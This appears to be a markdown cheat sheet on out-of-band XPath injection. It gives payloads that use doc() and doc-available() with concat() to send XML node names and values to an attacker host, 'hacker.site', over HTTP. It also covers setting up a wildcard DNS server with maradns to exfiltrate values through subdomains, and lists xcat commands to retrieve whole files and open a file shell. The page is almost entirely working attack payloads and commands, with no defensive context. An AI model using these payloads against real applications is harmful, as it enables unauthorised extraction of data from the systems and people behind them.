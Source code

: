 ### to exfiltrate via HTTP
Setup a web server in apache2
```js
... and doc('http://hacker.site/OOB/test/request')

... and doc(concat('http://hacker.site', 'value1/', 'value2'))

... and doc(concat('http://hacker.site', name(/*)))
# to discover the root name xml file

... and doc(concat('http://hacker.site', name(/*[1]/*[1])))
# u can discover the full tree name

... and doc-available(concat('http://hacker.site', encode-for-uri(name(/*[1]/*[1]))))

```  

### to exfiltrate via DNS
```bash
apt-get install maradns
```

Basically we will configure a functioning DNS like *.hacker.site

- all subdomains will redirect to hacker.site

Then we can exfiltrate the values of XML files in the subdomain spaces:
```js
and doc-available(concat('http://', name(/*),'.', '.__.hacker.site')
```

> Dont forget the **tail -f** in the maradns log file to get the results

* if we need to test space or others characters that are not allowed

we need to get the value in codepoints.net and encode like
```bash
curl hello\32world.hacker.site
```

### Using automated Tool
Xcat:
```python
python run_xcat.py --method GET http://xpath.hacker.site title=Code title "Brown" test_injection
python run_xcat.py --method GET http://xpath.hacker.site title=Code title "Brown" run
python run_xcat.py --method GET http://xpath.hacker.site title=Code title "Brown" run retrieve //this will retrieve the whole file
python run_xcat.py --public-ip "127.3.4.5" --method GET http://xpath.hacker.site title=Code title "Brown" run retrieve
python run_xcat.py --method GET http://xpath.hacker.site title=Code title "Brown" run file_shell
```





